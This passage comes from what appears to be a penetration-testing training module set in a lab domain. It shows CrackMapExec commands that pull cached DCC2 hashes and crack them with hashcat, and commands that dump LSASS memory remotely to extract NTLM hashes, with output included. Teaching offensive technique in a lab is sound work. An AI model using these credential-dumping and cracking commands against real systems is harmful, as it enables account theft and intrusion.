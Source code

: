 The hash format that starts with `$DCC2$` are the Domain Cached Credentials 2 (DCC2), MS Cache 2. Those hashes can be cracked using Hashcat, provided a weak password is set because this algorithm is much stronger than NTLM. Also, Domain Cached Credential hashes cannot be used for a Pass the Hash attack. To crack them, we need to remove the domain and username, grab the value after `$DCC2$`, and use Hashcat module 2100.

### **Cracking Hashes**

```shell-session
$ cat /home/plaintext/.cme/logs/MS01_10.129.204.133_2022-11-08_093944.cached| cut -d ":" -f 2
$DCC2$10240#julio#c2139497f24725b345aa1e23352481f3
$DCC2$10240#david#a8338587a1c6ee53624372572e39b93f
$DCC2$10240#john#fbdeac2c1d121818f75796cedd0caf0a
```

```shell-session
$ hashcat -m 2100 hashes.txt /usr/share/wordlists/rockyou.txt 

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921355
* Keyspace..: 14344386

$DCC2$10240#julio#c2139497f24725b345aa1e23352481f3:Password1

<SNIP>
```

***

## Gettings Secrets from LSASS

The memory of the LSASS process contains Windows passwords as cleartext or other formats of hashes such as NTLM or AES256/AES128. Dumping the memory can be an effective way to find more and more accounts until we find one domain administrator.

CrackMapExec contains several modules to dump the content of the LSASS process memory. Let's see some of them:

### **Lsassy Module**

1. [Lsassy](https://github.com/Hackndo/lsassy) Python tool to remotely extract credentials on a set of hosts. This [blog post](https://en.hackndo.com/remote-lsass-dump-passwords/) explains how it works. This tool uses the [Impacket](https://github.com/SecureAuthCorp/impacket) project to remotely read necessary bytes in an LSASS dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -M lsassy

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
LSASSY      10.129.204.133  445    MS01             INLANEFREIGHT\julio 64f12cddaa88057e06a81b54e73b949b
LSASSY      10.129.204.133  445    MS01             INLANEFREIGHT\david c39f2beb3d2ec06a62cb887fb391dee0
LSASSY      10.129.204.133  445    MS01             INLANEFREIGHT\john c4b0e1b10c7ce2c4723b4e2407ef81a2
```
